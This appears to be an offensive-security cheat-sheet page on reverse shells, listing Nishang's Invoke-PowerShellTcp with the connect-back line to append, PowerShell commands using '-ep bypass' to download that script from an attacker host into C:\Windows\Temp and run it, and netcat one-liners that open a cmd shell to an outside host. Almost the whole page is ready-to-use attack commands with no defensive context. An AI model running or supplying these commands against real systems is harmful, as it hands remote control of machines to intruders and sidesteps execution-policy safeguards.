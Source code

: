 # Reverse Shells

### Nishang

[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Add line to ending:&#x20;

Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.1 -Port 80

```
cmd.exe /c powershell.exe -ep bypass Invoke-WebRequest -Uri 'http://192.168.1.1/Invoke-PowerShellTcp.ps1' -OutFile 'C:\Windows\Temp\s.ps1'

cmd.exe /c powershell.exe -ep bypass -File C:\Windows\Temp\s.ps1"
```

### Netcat

```
nc -e {shell} {LHOST} {LPORT}
nc.exe -e cmd 192.168.1.1 80
```

